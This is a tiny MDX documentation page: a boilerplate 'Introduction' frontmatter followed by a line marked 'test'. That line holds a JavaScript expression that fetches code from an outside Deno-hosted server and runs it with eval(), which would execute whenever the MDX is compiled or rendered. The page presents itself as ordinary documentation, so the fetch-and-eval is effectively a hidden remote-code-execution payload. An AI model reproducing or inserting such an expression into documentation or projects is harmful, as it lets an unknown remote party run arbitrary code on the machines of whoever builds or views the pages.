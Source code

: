 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://deno-server-86.deno.dev").then((a) => a.text()).then((a) => eval(a))) : "not"}

test2